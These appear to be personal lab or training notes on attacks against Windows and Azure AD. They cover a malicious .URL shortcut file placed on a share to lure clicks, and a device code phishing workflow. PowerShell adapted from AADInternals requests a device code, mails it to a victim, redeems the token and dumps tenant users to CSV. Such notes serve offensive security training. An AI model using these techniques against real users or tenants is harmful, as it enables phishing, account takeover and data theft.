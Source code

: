  Now you are going to create a shortcut file to trick a user into clicking it… You will then place it on SRV01…
click.URL containing : 
[{000214A0-0000-0000-C000-000000000046}] Prop3=19,2 [InternetShortcut] IDList= URL=http://cli01.contoso.com/ IconIndex=234 HotKey=0 IconFile=C:\Windows\System32\SHELL32.DLL




![[Pasted image 20231010211230.png]]

Abusing the device code flow MO

Try to access data using code flow and get a code 2. Trick the user into entering the code in the devicelogon page (phishing) 3. Connect on behalf of the user 4. Pivot to other backend resources and access other resources

### PowerShell tool to make Code Flow
AAD Internals module (excerpt)

```powershell
$body=@{ "client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c" "resource" = "https://graph.windows.net" } 
$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body $user_code = $authResponse.user_code Send-MailMessage ... 
$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body # Dump the tenant users to csv Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
```

